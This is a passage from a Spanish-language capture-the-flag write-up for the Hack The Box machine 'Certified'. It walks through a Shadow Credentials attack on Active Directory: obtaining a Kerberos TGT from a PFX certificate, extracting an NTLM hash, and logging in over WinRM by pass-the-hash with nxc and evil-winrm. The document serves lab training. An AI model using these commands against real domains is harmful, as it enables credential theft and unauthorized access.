 Esto nos devolverá un hash y una _URL_ para clonar el repositorio, que contiene herramientas para obtener nuestro [TGT](# "TGT: Ticket Granting Ticket emitido por el KDC en Kerberos, usado para solicitar otros tickets de servicio sin reenviar credenciales."). 

Requisitos para usarla: 

    > Archivo .pfx
    > [i] Passwort für PFX: <contenido>

```python
python3 gettgtpkinit.py -cert-pfx bULgmTV1.pfx -pfx-pass bGF4SsQMag0V5oke1LTg -dc-ip 10.10.11.41 certified.htb/management_svc management.ccache
```
<span style="font-size:12px">_Para usar esta herramienta, tu hora y la de la víctima deben estar sincronizadas. Esto se puede hacer con `ntpdate`._</span>

![tgt](../../../../../assets/certified/tgt.png)

- [getnthash.py](# "Script de Impacket que extrae el hash NTLM de un usuario en Active Directory usando sus credenciales válidas.") para extraer el hash.

```
python3 getnthash.py -key ac0dc7ee3fcba2a2bf12be74a37e15607bb61d8766e3b7de09b100aa0d485a0b -dc-ip 10.10.11.41 certified.htb/management_svc
```

Si nos da un error indicando que no se encontró el TGT en la caché de Kerberos, debemos indicarlo mediante la variable `KRB5CCNAME`.

```bash
KRB5CCNAME=management.ccache python3 getnthash.py -key ee16ec89d07c92667f8a3e1535269f5dcd606eba51f09f3375515ecfec46fff0 -dc-ip 10.10.11.41 certified.htb/management_svc
```

##### Ingresando como el usuario management_svc

Ya con el hash obtenido, confirmamos si podemos conectarnos vía WinRM.

```bash
nxc winrm certified.htb -u "management_svc" -H 'a091c1832bcdd4677c28b5a6a1295584'
WINRM       10.10.11.41     5985   DC01             [+] certified.htb\management_svc:a091c1832bcdd4677c28b5a6a1295584 (Pwn3d!)
```

En efecto, podemos conectarnos con _evil-winrm_. En el escritorio encontraremos la primera flag.

```
evil-winrm -i 10.10.11.41 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
```

#### Accediendo como administrador

Ya que tenemos los hashes del usuario _management_svc_, podemos ejecutar nuevamente un ataque de _Shadow Credentials_.
